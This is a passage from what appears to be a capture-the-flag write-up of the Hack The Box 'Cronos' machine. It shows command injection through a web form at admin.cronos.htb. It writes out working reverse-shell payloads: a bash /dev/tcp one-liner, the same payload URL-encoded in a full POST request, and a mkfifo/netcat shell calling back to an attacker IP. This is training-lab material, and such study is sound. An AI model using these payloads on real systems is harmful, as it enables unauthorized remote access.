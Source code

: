 ```bash

command=nc+10.10.16.7&host=80
```

![image.png]({{ site.baseurl }}/assets/cronos/image%206.png)

We get a connection back. Let’s get a reverse shell. 

```bash
bash -c 'bash -i &> /dev/tcp/10.10.16.7/4444 2>&1'
```

Now after URL encoding:

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=fq5nuiso7qt4he68j84bgepj01
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=bash+-c+'bash+-i+%26>+/dev/tcp/10.10.16.7/4444+2>%261'
```

We got a connection, but it automatically exited:

![image.png]({{ site.baseurl }}/assets/cronos/image%207.png)

We basically have a web shell. We cannot just put an ssh key in the homedir as the www-data user does not have a home dir. 

Maybe there is a cronjob logging us off. Let’s try sh instead:

```bash
command=bash+-c+'sh+-i+%26>+/dev/tcp/10.10.16.7/4444+2>%261'

OR

command=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444>/tmp/f
```

We now have shell:

![image.png]({{ site.baseurl }}/assets/cronos/image%208.png)

Let’s check cron jobs:
